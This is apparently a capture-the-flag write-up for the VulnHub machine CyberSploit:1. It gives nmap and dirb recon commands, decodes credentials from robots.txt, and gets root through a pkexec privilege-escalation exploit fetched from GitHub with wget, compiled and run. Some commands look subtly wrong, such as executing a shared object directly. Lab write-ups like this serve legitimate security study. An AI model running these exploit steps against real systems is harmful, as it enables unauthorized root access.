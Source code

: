 

# CyberSploit:1 Walkthrough

**VulnHub Link:** [CyberSploit:1](https://www.vulnhub.com/entry/cybersploit-1,506/)
**Difficulty:** Easy
**Release Date:** 9 Jul 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```

from main page source , we found username ---> itsskv

from robots.txt we obtain base64 encoded text and 

```bash
echo "R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9" | base64 -d
```

we found out cybersploit{youtube.com/c/cybersploit} is password of ssh service

itsskv shell opened ..!

We found flag2 and converting to 

good work ! 
flag2: cybersploit{https:t.me/cybersploit1}

## 3.Privilege Escalation

```bash
find / -perm /4000 2>/dev/null
```
pkexec vulnerability found

```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/CyberSploit%3A1/exploit.c
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/CyberSploit%3A1/evil-so.c
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
./evil.so
./exploit
```

and   BOOOMM ..!   We obtain root shell...!
